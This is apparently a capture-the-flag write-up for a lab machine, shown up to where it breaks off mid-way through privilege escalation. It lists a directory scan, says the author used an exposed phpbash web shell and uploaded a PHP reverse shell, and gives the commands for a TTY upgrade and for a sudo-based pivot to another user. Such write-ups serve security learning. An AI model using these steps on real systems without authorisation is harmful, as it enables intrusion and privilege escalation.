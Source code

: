 ```bash
/js/main.js
/uploads/index.html
/php/sendMail.php
/css/carouFredSel.css
/css/clear.css
/css/common.css
/css/font-awesome.min.css
/css/sm-clean.css
/dev/phpbash.min.php
/dev/phpbash.php
/icons/README.html
/config.php
/fonts/FontAwesome.otf
/fonts/fontawesome-webfont.eot
/fonts/fontawesome-webfont.svg
/fonts/fontawesome-webfont.ttf
/fonts/fontawesome-webfont.woff
/fonts/fontawesome-webfont.woff2


--------------------------------
```

## Exploitation
This box actually gives you foothold right from the beginning. If you didn't do your directory busting correctly I can see how you might've missed it. In <b>/dev/phpbash.php</b> as a special web application which gives you a shell into the box from the web browser. From there you are in as the user www-data. I wanted an actual terminal on the box so I uploaded the <a href="php-reverse-shell.php">php-reverse-shell.php</a> in the upload directory and caught a reverse shell. I then upgrade the shell.
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+z 
stty -a
speed 38400 baud; rows 60; columns 235; line = 0;
stty raw -echo; fg
	stty rows 60 cols 235
export TERM=xterm
```

## Privilege Escalation
I run LinEnum.sh and find something very interesting:
```bash
./LinEnum.sh -t -r results

[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
This means we can run any file as script manager without specifying a password. In order to do this:
```bash
sudo -u scriptmanager /bin/bash
```
And then we become scriptmanager. I then run LinEnum.sh another time. Again I find something interesting.
```bash
./LinEnum.sh -t -r results_as_scriptmanager.txt 

```